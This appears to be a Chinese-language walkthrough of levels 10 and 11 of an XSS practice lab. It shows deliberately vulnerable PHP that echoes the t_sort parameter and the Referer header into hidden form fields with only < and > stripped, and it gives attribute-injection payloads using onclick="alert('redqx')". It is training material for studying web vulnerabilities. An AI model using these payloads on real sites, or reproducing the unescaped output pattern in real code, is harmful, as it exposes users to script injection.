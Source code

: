 # level10

```php
?t_sort=" type="text" onclick="alert('redqx')"
?t_sort=" onclick="alert('redqx')" type="text"
```

代码摘要

```php
<?php 
ini_set("display_errors", 0);
$str = $_GET["keyword"];
$str11 = $_GET["t_sort"];
$str22=str_replace(">","",$str11);
$str33=str_replace("<","",$str22);
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
<form id=search>
<input name="t_link" value="'.'" type="hidden">
<input name="t_history" value="'.'" type="hidden">
<input name="t_sort"  value="'.$str33.'" type="hidden">
</form>
</center>';
?>
```

对keyword做了一个特殊字符转义,无法绕过

对t_sort做了<>字符串替换,可以通过编码绕过

# level11

代码摘要

```php
<?php 
ini_set("display_errors", 0);
$str = $_GET["keyword"];
$str00 = $_GET["t_sort"];
$str11=$_SERVER['HTTP_REFERER'];//referer
$str22=str_replace(">","",$str11);
$str33=str_replace("<","",$str22);
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
<form id=search>
<input name="t_link"  value="'.'" type="hidden">
<input name="t_history"  value="'.'" type="hidden">
<input name="t_sort"  value="'.htmlspecialchars($str00).'" type="hidden">
<input name="t_ref"  value="'.$str33.'" type="hidden">
</form>
</center>';
?>
```
